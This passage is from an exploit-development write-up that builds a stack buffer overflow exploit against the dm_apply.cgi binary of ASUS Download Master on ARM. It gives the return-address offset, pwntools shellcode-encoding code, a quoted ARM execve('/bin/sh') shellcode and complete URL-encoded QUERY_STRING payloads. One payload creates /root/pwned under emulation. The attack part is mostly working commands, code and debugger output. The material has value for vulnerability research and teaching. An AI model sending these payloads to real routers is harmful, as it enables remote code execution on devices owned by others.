AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB&task_id=&download_type=OTHER' etc/downloadmaster/downloadmaster/dm_apply.cgi
```



As seen in the above, I found `$PC` at offset 2332:

```
➜  ~ msf-pattern_offset -q 7a43377b
/var/lib/gems/2.5.0/gems/bundler-1.17.3/lib/bundler/rubygems_integration.rb:200: warning: constant Gem::ConfigMap is deprecated
[*] No exact matches, looking for likely candidates...
[+] Possible match at offset 2332 (adjusted [ little-endian: 1 | big-endian: 783361 ] ) byte offset 0
```

Looking at the stack, there's a ton of space available for shellcode:

```
pwndbg> x/64xw $sp-256
0xfffee260:     0x41414141      0x41414141      0x41414141      0x41414141
0xfffee270:     0x41414141      0x41414141      0x41414141      0x41414141
0xfffee280:     0x41414141      0x41414141      0x41414141      0x41414141
0xfffee290:     0x41414141      0x41414141      0x41414141      0x41414141
0xfffee2a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xfffee2b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xfffee2c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xfffee2d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xfffee2e0:     0x41414141      0x41414141      0x41414141      0x41414141
0xfffee2f0:     0x41414141      0x41414141      0x41414141      0x41414141
0xfffee300:     0x41414141      0x41414141      0x41414141      0x41414141
0xfffee310:     0x41414141      0x41414141      0x41414141      0x41414141
0xfffee320:     0x41414141      0x41414141      0x41414141      0x41414141
0xfffee330:     0x41414141      0x41414141      0x41414141      0x41414141
0xfffee340:     0x41414141      0x41414141      0x41414141      0x41414141
0xfffee350:     0x41414141      0x41414141      0x41414141      0x42424242
```

`printf "\x60\xe2\xfe\xff"`  instead of `BBBB`

Then, debugging with `-g 1234` and adding a breakpoint on `0xFFFEE260`



Tada!

```
tester@asuserlin-ubuntu20:~/download_manager/asusware.arm$ sudo chroot . ./qemu-arm-static -g 1234 -E QUERY_STRING="action_mode=DM_CTRL&dm_ctrl=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`printf "\x60\xe2\xfe\xff"`&task_id=&download_type=OTHER" etc/downloadmaster/downloadmaster/dm_apply.cgi
ContentType:text/html
Cache-Control:private,max-age=0;

/proc/uptime: No such file or directory
UNKNOW
```

And there's the `UNKNOW` response I saw initially, cool to see it full circle. We can't `unknow` this, though. >:))

Anyway, now we've moved execution to a section of the buffer we sent, 256 bytes before `$PC`

```
#!/usr/bin/env python3
from pwn import *

context.update(arch='arm', os='linux')
shellcode = asm(shellcraft.echo('hello'))
avoid = b'\x00"'
encoded = pwnlib.encoders.arm.xor.encode(shellcode, avoid)
assert not any(c in encoded for c in avoid)

junk = b"A"*(2332-len(encoded))
sc = junk + encoded
print("Shellcode:")
print(sc)
print(hexdump(sc))
```



After fighting with `printf` for a bit and having the formatted characters break the command, I did a quick test to see *when* the URL encoding coding was being decoded-- if it's being decoded before it reaches the vulnerable code then it should be possible to just send URL encoded payloads:

Sending `("%41" * 2332) + BBBB`

```
Aug  3 07:31:49 kernel: CPU: 0 PID: 11539 Comm: dm_apply.cgi Tainted: P           O    4.1.51 #4
Aug  3 07:31:49 kernel: Hardware name: Broadcom-v8A (DT)
Aug  3 07:31:49 kernel: task: ffffffc03e9314c0 ti: ffffffc028624000 task.ti: ffffffc028624000
Aug  3 07:31:49 kernel: PC is at 0x42424242
Aug  3 07:31:49 kernel: LR is at 0xf7017764
Aug  3 07:31:49 kernel: pc : [<0000000042424242>] lr : [<00000000f7017764>] pstate: 20000010
Aug  3 07:31:49 kernel: sp : 00000000ffe2b170
Aug  3 07:31:49 kernel: x12: 0000000000000000 
Aug  3 07:31:49 kernel: x11: 0000000041414141 x10: 00000000f709ff6c 
Aug  3 07:31:49 kernel: x9 : 0000000000000000 x8 : 0000000000000000 
Aug  3 07:31:49 kernel: x7 : 0000000000000000 x6 : 00000000000114a8 
Aug  3 07:31:49 kernel: x5 : 00000000f70882e0 x4 : 0000000041414141 
Aug  3 07:31:49 kernel: x3 : 0000000000000000 x2 : 0000000000000041 
Aug  3 07:31:49 kernel: x1 : 00000000f7086864 x0 : 0000000000000000 
```

Perfect! No need to even mess with encoding, just gotta avoid a few bad chars like 00.

## SC problems

I ran into issues with alignment and execution of shellcode when it's within the AAAAAs, and then messed around and found that there's still plenty of space available after overwriting the return address. In my experience it's also way easier to stack adjust / ROP around when overwriting to *higher* stack addresses, as there are usually more gadgets. (Later Howard: I later fixed the dumb alignment issues to make it possible to do junk+shellcode+ret)



Screenshot above is running 
`ROPgadget --binary ../download_manager/asusware.arm/etc/downloadmaster/downloadmaster/dm_apply.cgi`

Using a 35 byte shellcode (https://shell-storm.org/shellcode/files/shellcode-855.html), we can add a buffer of 2297 "A"s, then the shellcode, then our ret of BBBB. After some testing, I found the stack alignment is a little off so adjusting for that:



That's `2296 * A + shellcode + \x20 + BBBB`-- we're clearly hitting the `execve` call. This was done manually via gdb by setting PC to the location of the payload on the stack. 

Due to discrepancies with GDB's environment, the overflow happens differently outside of GDB. In the above example, `$sp-64` looks like this:


Which means that at `0xfffebeb0`, we have our first bit of shellcode, and we die at 
`174754 execve("//bin//sh BBBB",{ = -1 errno=2 (No such file or directory)`

However, that same payload results in the following segfault outside of GDB, not quite what we want:
```
--- SIGSEGV {si_signo=SIGSEGV, si_code=1, si_addr=0xfdf2f6e8} ---
Segmentation fault
```

This link gives a great overview on why this typically is: https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it

Looking at the coredump, we see a slight discrepancy in our payload addressing. In the GDB environment, our payload begins at `0xfffebeb0`, but outside of GDB our payload is misaligned, and begins at `0xfffebeb8`



So, in addition to modifying our return address, we also need to modify where our payload appears in our buffer by two bytes in either direction. Since modifying it to be two bytes further in will interfere with the final ret (BBBB), we can just move two bytes from the initial buffer to after our shellcode, then adjust the ret.

PoC Outside of GDB:

`2294 + %01%60%8f%e2%16%ff%2f%e1%40%40%78%44%0c%30%49%40%52%40%0b%27%01%df%01%27%01%df%2f%2f%62%69%6e%2f%2f%73%68 + 3 byte padding + RET (%bb%be%fe%ff)`



This fails in `execve` (great), but because the shellcode ends in `//bin//sh + padding + ret` it dies. We need `//bin//sh\x00`, so we'll need to mod the shellcode a bit to do a calculation of that.

Since we have control of PC and stack before and after our payload, one possible method is to replace the svc call and string with a stack adjustment, and "jump" over the RET address we need. This allows us to have the same shellcode, and end in a null byte. 

(Later Howard: wtf was I talking about, what is all this??)

ASM
`add $pc, 0x20 //Adjust PC + 20`

OG Shellcode
```
/* 
Title       : Linux/ARM - execve("/bin/sh", [], [0 vars]) - 35 bytes
Date        : 2013-09-04
Author      : gunslinger_ (yuda at cr0security dot com)
Tested on   : ARM1176 rev6 (v6l)

An ARM Hardcoded Shellcode without 0x20, 0x0a, and 0x00.

Cr0security.com

*/
#include <stdio.h>

char *shellcode = "\x01\x60\x8f\xe2"    // add     r6, pc, #1
              "\x16\xff\x2f\xe1"    // add     bx      r6
              "\x40\x40"            // eors    r0, r0
              "\x78\x44"            // add     r0, pc
              "\x0c\x30"            // adds    r0, #12
              "\x49\x40"            // eors    r1, r1
              "\x52\x40"            // eors    r2, r2
              "\x0b\x27"            // movs    r7, #11
              "\x01\xdf"            // svc     1
              "\x01\x27"            // movs    r7, #1
              "\x01\xdf"            // svc     1
              "\x2f\x2f"            // .short  0x2f2f
              "\x62\x69\x6e\x2f"    // .word   0x2f6e6962
              "\x2f\x73"            // .short  0x732f
              "\x68";               // .byte   0x68

int main(){
fprintf(stdout,"Shellcode length: %d\n", strlen(shellcode));
(*(void(*)()) shellcode)();
return 0;
}
```

Create `/root/pwned`:
```
sudo chroot . ./qemu-arm-static -strace -E QUERY_STRING='action_mode=DM_CTRL&dm_ctrl=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%60%e2%fe%ff%01%60%8f%e2%16%ff%2f%e1%78%46%10%30%ff%21%ff%31%01%31%08%27%01%df%40%40%01%27%01%df%2f%72%6f%6f%74%2f%70%77%6e%65%64&task_id=&download_type=OTHER' etc/downloadmaster/downloadmaster/dm_apply.cgi
```

Proof:
```
1870 rt_sigaction(SIGINT,0xff7d43c4,NULL) = 0
1870 rt_sigaction(SIGQUIT,0xff7d43d8,NULL) = 0
1870 rt_sigprocmask(SIG_SETMASK,0xfffea5dc,NULL) = 0
1870 open("/Download2/.sems/sem.jqs",O_RDONLY|O_NONBLOCK) = -1 errno=2 (No such file or directory)
